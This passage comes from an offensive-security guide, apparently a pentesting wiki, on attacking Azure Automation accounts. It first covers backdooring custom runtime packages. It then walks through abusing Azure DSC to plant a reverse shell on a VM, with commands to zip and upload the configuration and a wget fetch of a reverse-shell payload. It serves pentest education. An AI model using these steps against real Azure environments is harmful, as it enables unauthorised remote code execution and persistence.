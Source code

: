 ### Custom Runtime Environments

If an automation account is using a custom runtime environment, it could be possible to overwrite a custom package of the runtime with some malicious code (like **a backdoor**). This way, whenever a runbook using that custon runtime is executed and load the custom package, the malicious code will be executed.

### Compromising State Configuration

**Check the complete post in:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

- Step 1 — Create Files

**Files Required:** Two PowerShell scripts are needed:
  1. `reverse_shell_config.ps1`: A Desired State Configuration (DSC) file that fetches and executes the payload. It is obtainable from [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1).
  2. `push_reverse_shell_config.ps1`: A script to publish the configuration to the VM, available at [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1).

**Customization:** Variables and parameters in these files must be tailored to the user's specific environment, including resource names, file paths, and server/payload identifiers.

- Step 2 — Zip Configuration File

The `reverse_shell_config.ps1` is compressed into a `.zip` file, making it ready for transfer to the Azure Storage Account.

```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```

- Step 3 — Set Storage Context & Upload

The zipped configuration file is uploaded to a predefined Azure Storage container, azure-pentest, using Azure's Set-AzStorageBlobContent cmdlet.

```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```

- Step 4 — Prep Kali Box

The Kali server downloads the RevPS.ps1 payload from a GitHub repository.

```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```

The script is edited to specify the target Windows VM and port for the reverse shell.

- Step 5 — Publish Configuration File

The configuration file is executed, resulting in the reverse-shell script being deployed to the specified location on the Windows VM.
